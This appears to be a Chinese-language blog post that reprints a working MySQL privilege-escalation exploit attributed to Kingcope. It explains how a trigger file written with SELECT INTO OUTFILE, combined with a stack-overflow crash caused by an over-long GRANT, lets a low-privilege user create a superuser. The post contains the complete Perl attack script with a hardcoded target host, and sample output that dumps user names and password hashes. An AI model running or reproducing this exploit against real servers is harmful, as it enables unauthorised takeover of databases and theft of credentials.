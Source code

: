 ```yaml
---
layout: post
category : MySQL
tags : [MySQL]
title: MySQL提权漏洞
---
```

{% include JB/setup %}
    use DBI();
    $|=1;

    =for comment
    MySQL远程提权漏洞：
    这个漏洞可以新建一个超级用户
    具体详见：http://www.exploit-db.com/exploits/23077/
    By Kingcope

    在以下版本测试成功：
    a) Debian Lenny (mysql-5.0.51a)
    b) OpenSuSE 11.4 (5.1.53-log)

    工作原理，这个漏洞实际上利用了好几样东西：
    a) 实施攻击的用户拥有数据库的file权限(select into outfile,load data infile)。
    b) 所以攻击者可以在服务器上新建属于mysql用户的文件。
    c) 这样攻击者就可以新建一个对mysql系统库进行读写的触发器(MySQL的触发器以明文文本的形式保存最对应库
      的目录下面，所以可以通过select into outfile新建)
      又因为MySQL里面调用存储过程和触发器的用户和执行存储过程不是同一个用户，调用的用户需要对应的存储
      过程和触发器 的excute权限，而执行的用户需要super权限(类似于Linux上的su命令和crontab的工作原理)。
      所以我们可以建一个执行用户为"root@localhost"的触发器(DEFINER=`root`@`localhost`)， 之所以为
      DEFINER=`root`@`localhost`是因为这个用户是MySQL一个默认的超级用户。
    d) 再通过栈溢漏洞造成MySQL Crash重启，达到重新加载配置文件的目的。这一步非常的重要，MySQL很多信息
      只要在启动的时候才会加载，这个栈溢出的原理是使用一个没有grant权限的用户做一个虚假的grant操作，而
      这个操作是对一个根本不存在但很长(如下攻击实例是10000字符长度的库名，实际达到284个时就会触发)库进
      行赋权。

    这个漏洞的攻击过程如下：
    a) 连接MySQL服务器
    b) 为触发器新建一个叫做rootme的表
    c) 使用select into outfile新建一个触发器 /var/lib/mysql/<databasename>/rootme.TRG
    d) 通过栈溢出造成MySQL Crash重启，使MySQL加载这个新建的触发器。
    e) 插入一条数据，触发触发器运行。
    f) 触发器使当前低权限用户拥有mysql.user表的所有权限。
    g) 再次通过栈溢出，让MySQL Crash重启重新加载权限文件。
    h) 新建一个超级用户，因为不能执行flush privileges;操作，现在这个用户还无效。
    i) 再次通过栈溢出，让MySQL Crash重启再次重新加载权限文件。
    j) 使用这个具有超级权限的用户连接数据库。
    k) 一个具有超级用户权限的用户建好了。

    造成mysqld重载是由mysqld_safe造成的，所以并不是所有的配置都会有问题。
    =cut

    =for comment
    建立测试用户(我们将只对测试库添加file权限):
    mysql> CREATE USER 'less'@'%' IDENTIFIED BY 'test';
    Query OK, 0 rows affected (0.00 sec)
    mysql> create database lessdb
        -> ;
    Query OK, 1 row affected (0.00 sec)
    mysql> GRANT ALL PRIVILEGES ON lessdb.* TO 'less'@'%' WITH GRANT OPTION;
    Query OK, 0 rows affected (0.02 sec)
    mysql> GRANT FILE ON *.* TO 'less'@'%' WITH GRANT OPTION;
    Query OK, 0 rows affected (0.00 sec)
    # 使用低权限用户登录，做如下操作会发现不能读系统库:
    mysql> select * from mysql.user;
    ERROR 1142 (42000): SELECT command denied to user 'less2'@'localhost' for table 'user'
    =cut

    =for comment
    实例攻击输出:
    C:\Users\kingcope\Desktop>perl mysql_privilege_elevation.pl
    select 'TYPE=TRIGGERS' into outfile'/var/lib/mysql/lessdb3/rootme.TRG' LINES TER
    MINATED BY '\ntriggers=\'CREATE DEFINER=`root`@`localhost` trigger atk after ins
    ert on rootme for each row\\nbegin \\nUPDATE mysql.user SET Select_priv=\\\'Y\\\
    ', Insert_priv=\\\'Y\\\', Update_priv=\\\'Y\\\', Delete_priv=\\\'Y\\\', Create_p
    riv=\\\'Y\\\', Drop_priv=\\\'Y\\\', Reload_priv=\\\'Y\\\', Shutdown_priv=\\\'Y\\
    \', Process_priv=\\\'Y\\\', File_priv=\\\'Y\\\', Grant_priv=\\\'Y\\\', Reference
    s_priv=\\\'Y\\\', Index_priv=\\\'Y\\\', Alter_priv=\\\'Y\\\', Show_db_priv=\\\'Y
    \\\', Super_priv=\\\'Y\\\', Create_tmp_table_priv=\\\'Y\\\', Lock_tables_priv=\\
    \'Y\\\', Execute_priv=\\\'Y\\\', Repl_slave_priv=\\\'Y\\\', Repl_client_priv=\\\
    'Y\\\', Create_view_priv=\\\'Y\\\', Show_view_priv=\\\'Y\\\', Create_routine_pri
    v=\\\'Y\\\', Alter_routine_priv=\\\'Y\\\', Create_user_priv=\\\'Y\\\', ssl_type=
    \\\'Y\\\', ssl_cipher=\\\'Y\\\', x509_issuer=\\\'Y\\\', x509_subject=\\\'Y\\\',
    max_questions=\\\'Y\\\', max_updates=\\\'Y\\\', max_connections=\\\'Y\\\' WHERE
    User=\\\'less3\\\';\\nend\'\nsql_modes=0\ndefiners=\'root@localhost\'\nclient_cs
    _names=\'latin1\'\nconnection_cl_names=\'latin1_swedish_ci\'\ndb_cl_names=\'lati
    n1_swedish_ci\'\n';DBD::mysql::db do failed: Unknown table 'rootme' at mysql_pri
    vilege_elevation.pl line 44.
    DBD::mysql::db do failed: Lost connection to MySQL server during query at mysql_
    privilege_elevation.pl line 50.
    DBD::mysql::db do failed: Lost connection to MySQL server during query at mysql_
    privilege_elevation.pl line 59.
    W00TW00T!
    Found a row: id = root, name = *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
    Found a row: id = root, name = *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
    Found a row: id = root, name = *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
    Found a row: id = debian-sys-maint, name = *C5524C128621D8A050B6DD616B06862F9D64
    B02C
    Found a row: id = some1, name = *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29
    Found a row: id = monty, name = *BF06A06D69EC935E85659FCDED1F6A80426ABD3B
    Found a row: id = less, name = *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29
    Found a row: id = r00ted, name = *EAD0219784E951FEE4B82C2670C9A06D35FD5697
    Found a row: id = user, name = *14E65567ABDB5135D0CFD9A70B3032C179A49EE7
    Found a row: id = less2, name = *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29
    Found a row: id = less3, name = *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29
    Found a row: id = rootedsql, name = *4149A2E66A41BD7C8F99D7F5DF6F3522B9D7D9BC
    =cut

    $user = "less10";
    $password = "test";
    $database = "lessdb10";
    $target = "192.168.2.4";
    $folder = "/var/lib/mysql/"; # Linux
    $newuser = "rootedbox2";
    $newuserpass = "rootedbox2";
    $mysql_version = "51"; # can be 51 or 50
     
    if ($mysql_version eq "50") {
    $inject =
    "select 'TYPE=TRIGGERS' into outfile'".$folder.$database."/rootme.TRG' LINES TERMINATED BY '\\ntriggers=\\'CREATE DEFINER=`root`\@`localhost` trigger atk after insert on rootme for each row\\\\nbegin \\\\nUPDATE mysql.user SET Select_priv=\\\\\\'Y\\\\\\', Insert_priv=\\\\\\'Y\\\\\\', Update_priv=\\\\\\'Y\\\\\\', Delete_priv=\\\\\\'Y\\\\\\', Create_priv=\\\\\\'Y\\\\\\', Drop_priv=\\\\\\'Y\\\\\\', Reload_priv=\\\\\\'Y\\\\\\', Shutdown_priv=\\\\\\'Y\\\\\\', Process_priv=\\\\\\'Y\\\\\\', File_priv=\\\\\\'Y\\\\\\', Grant_priv=\\\\\\'Y\\\\\\', References_priv=\\\\\\'Y\\\\\\', Index_priv=\\\\\\'Y\\\\\\', Alter_priv=\\\\\\'Y\\\\\\', Show_db_priv=\\\\\\'Y\\\\\\', Super_priv=\\\\\\'Y\\\\\\', Create_tmp_table_priv=\\\\\\'Y\\\\\\', Lock_tables_priv=\\\\\\'Y\\\\\\', Execute_priv=\\\\\\'Y\\\\\\', Repl_slave_priv=\\\\\\'Y\\\\\\', Repl_client_priv=\\\\\\'Y\\\\\\', Create_view_priv=\\\\\\'Y\\\\\\', Show_view_priv=\\\\\\'Y\\\\\\', Create_routine_priv=\\\\\\'Y\\\\\\', Alter_routine_priv=\\\\\\'Y\\\\\\', Create_user_priv=\\\\\\'Y\\\\\\', ssl_type=\\\\\\'Y\\\\\\', ssl_cipher=\\\\\\'Y\\\\\\', x509_issuer=\\\\\\'Y\\\\\\', x509_subject=\\\\\\'Y\\\\\\', max_questions=\\\\\\'Y\\\\\\', max_updates=\\\\\\'Y\\\\\\', max_connections=\\\\\\'Y\\\\\\' WHERE User=\\\\\\'$user\\\\\\';\\\\nend\\'\\nsql_modes=0\\ndefiners=\\'root\@localhost\\'\\nclient_cs_names=\\'latin1\\'\\nconnection_cl_names=\\'latin1_swedish_ci\\'\\ndb_cl_names=\\'latin1_swedish_ci\\'\\n';";
    } else {
    $inject =
    "select 'TYPE=TRIGGERS' into outfile'".$folder.$database."/rootme.TRG' LINES TERMINATED BY '\\ntriggers=\\'CREATE DEFINER=`root`\@`localhost` trigger atk after insert on rootme for each row\\\\nbegin \\\\nUPDATE mysql.user SET Select_priv=\\\\\\'Y\\\\\\', Insert_priv=\\\\\\'Y\\\\\\', Update_priv=\\\\\\'Y\\\\\\', Delete_priv=\\\\\\'Y\\\\\\', Create_priv=\\\\\\'Y\\\\\\', Drop_priv=\\\\\\'Y\\\\\\', Reload_priv=\\\\\\'Y\\\\\\', Shutdown_priv=\\\\\\'Y\\\\\\', Process_priv=\\\\\\'Y\\\\\\', File_priv=\\\\\\'Y\\\\\\', Grant_priv=\\\\\\'Y\\\\\\', References_priv=\\\\\\'Y\\\\\\', Index_priv=\\\\\\'Y\\\\\\', Alter_priv=\\\\\\'Y\\\\\\', Show_db_priv=\\\\\\'Y\\\\\\', Super_priv=\\\\\\'Y\\\\\\', Create_tmp_table_priv=\\\\\\'Y\\\\\\', Lock_tables_priv=\\\\\\'Y\\\\\\', Execute_priv=\\\\\\'Y\\\\\\', Repl_slave_priv=\\\\\\'Y\\\\\\', Repl_client_priv=\\\\\\'Y\\\\\\', Create_view_priv=\\\\\\'Y\\\\\\', Show_view_priv=\\\\\\'Y\\\\\\', Create_routine_priv=\\\\\\'Y\\\\\\', Alter_routine_priv=\\\\\\'Y\\\\\\', Create_user_priv=\\\\\\'Y\\\\\\', Event_priv=\\\\\\'Y\\\\\\', Trigger_priv=\\\\\\'Y\\\\\\', ssl_type=\\\\\\'Y\\\\\\', ssl_cipher=\\\\\\'Y\\\\\\', x509_issuer=\\\\\\'Y\\\\\\', x509_subject=\\\\\\'Y\\\\\\', max_questions=\\\\\\'Y\\\\\\', max_updates=\\\\\\'Y\\\\\\', max_connections=\\\\\\'Y\\\\\\' WHERE User=\\\\\\'$user\\\\\\';\\\\nend\\'\\nsql_modes=0\\ndefiners=\\'root\@localhost\\'\\nclient_cs_names=\\'latin1\\'\\nconnection_cl_names=\\'latin1_swedish_ci\\'\\ndb_cl_names=\\'latin1_swedish_ci\\'\\n';";
    }
     
    print $inject;#exit;
    $inject2 =
    "SELECT 'TYPE=TRIGGERNAME\\ntrigger_table=rootme;' into outfile '".$folder.$database."/atk.TRN' FIELDS ESCAPED BY ''";
     
    my $dbh = DBI->connect("DBI:mysql:database=$database;host=$target;",
                           "$user", "$password",
                           {'RaiseError' => 0});
    eval { $dbh->do("DROP TABLE rootme") };
    $dbh->do("CREATE TABLE rootme (rootme VARCHAR(256));");
    $dbh->do($inject);
    $dbh->do($inject2);
     
    $a = "A" x 10000;
    $dbh->do("grant all on $a.* to 'user'\@'%' identified by 'secret';");
     
    sleep(3);
     
    my $dbh = DBI->connect("DBI:mysql:database=$database;host=$target;",
                           "$user", "$password",
                           {'RaiseError' => 0});
     
    $dbh->do("INSERT INTO rootme VALUES('ROOTED');");
    $dbh->do("grant all on $a.* to 'user'\@'%' identified by 'secret';");
     
    sleep(3);
     
    my $dbh = DBI->connect("DBI:mysql:database=$database;host=$target;",
                           "$user", "$password",
                           {'RaiseError' => 0});
     
    $dbh->do("CREATE USER '$newuser'\@'%' IDENTIFIED BY '$newuserpass';");
    $dbh->do("GRANT ALL PRIVILEGES ON *.* TO '$newuser'\@'%' WITH GRANT OPTION;");
    $dbh->do("grant all on $a.* to 'user'\@'%' identified by 'secret';");
     
    sleep(3);
     
    my $dbh = DBI->connect("DBI:mysql:host=$target;",
                           $newuser, $newuserpass,
                           {'RaiseError' => 0});
     
    my $sth = $dbh->prepare("SELECT * FROM mysql.user");
    $sth->execute();
     
    print "W00TW00T!\n";
     
    while (my $ref = $sth->fetchrow_hashref()) {
    print "Found a row: id = $ref->{'User'}, name = $ref->{'Password'}\n";
    }
    $sth->finish();